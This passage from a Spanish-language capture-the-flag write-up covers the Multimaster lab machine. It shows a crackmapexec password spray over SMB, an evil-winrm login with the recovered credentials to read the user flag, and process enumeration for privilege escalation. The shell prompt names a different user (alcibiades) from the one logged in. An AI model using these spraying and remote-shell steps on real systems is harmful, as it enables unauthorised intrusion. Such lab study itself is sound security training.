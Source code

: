 ```bash
❯ crackmapexec smb 10.10.10.179 -u users.txt -p passwords --continue-on-success
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\tushikikatomo:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\tushikikatomo:finance1 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\tushikikatomo:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\lana:password1 STATUS_LOGON_FAILURE
```

Como antes `nmap` nos reporto que el puerto `5985` estaba abierto intentaremos conectarnos con estas credenciales con `evil-winrm`y visualizamos la primera flag `user.txt`


```bash
❯ evil-winrm -i 10.10.10.179 -u 'tushikikatomo' -p 'finance1'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\alcibiades\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> type user.txt
9d5ca88b1cafe75450e0b7a7b03c7834
```

## Escalada de Privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}


Enumerando un poco el sistema encontramos que se ejecuta el proceso `Code` correspondiente a `Visual Code`

```powershell
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    277      51    57564      74188               652   1 Code
    576      39    30472      72024              1212   1 Code
    403      53    96468     122704              5464   1 Code
    315      31    37032      62272              5576   1 Code
    397      21    16804      23172              5836   1 Code
    194      15     6112      12432              6056   1 Code
     63       4      708       3532              5832   0 CompatTelRunner
     93       8     1308       5884              4092   0 conhost
```
